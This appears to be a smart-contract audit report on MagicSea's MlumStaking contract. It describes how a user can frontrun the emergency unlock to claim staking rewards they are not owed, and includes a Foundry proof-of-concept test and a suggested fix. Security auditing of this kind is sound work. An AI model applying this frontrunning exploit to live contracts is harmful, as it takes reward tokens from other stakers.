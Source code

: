 Bitter Seaweed Eagle

Medium

# Users can abuse `MlumStaking::setEmergencyUnlock` to steal tokens

## Summary

Users earn reward tokens by locking staking tokens inside the contract and setting a duration for their lock which impacts how big their rewards are going to be. By frontrunning the calling of `MlumStaking::setEmergencyUnlock` they can earn rewards they are not entitled to by creating a position with the maximum lock time and instantly withdrawing their funds afterwards.
## Vulnerability Detail

When a user creates a position they are immediately entitled to reward tokens when they create their lock based on the duration set by them instead of accumulating them over time. This can be exploited by waiting for the pool admin to call `setEmergencyUnlock(true)` and allow all users to withdraw their funds. Which means that a user can frontrun this call, create a position with the maximum lock time, and then withdraw all the funds they have deposited and earn staking rewards they were not supposed to receive.

## Impact
POC
```solidity
    function testEmeregencyWithdraw() public{

        _stakingToken.mint(ALICE, 1 ether);
        _stakingToken.mint(BOB, 2 ether);
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether,365 days);
        vm.stopPrank();

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 2 ether);
        _pool.createPosition(2 ether,1 days);
        vm.stopPrank();

        _rewardToken.mint(address(_pool), 100_000_000); 

        vm.prank(DEV);
        _pool.setEmergencyUnlock(true);

        vm.startPrank(ALICE);
        _pool.withdrawFromPosition(1,1 ether);
        console.logUint(_rewardToken.balanceOf(ALICE));
        console.logUint(_stakingToken.balanceOf(ALICE));
        vm.stopPrank();

    }
```

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L496-L502
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L619-L650
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L301-L306

## Tool used

Manual Review
VS Code
Foundry

## Recommendation
Give out rewards based on time passed and not lock duration.
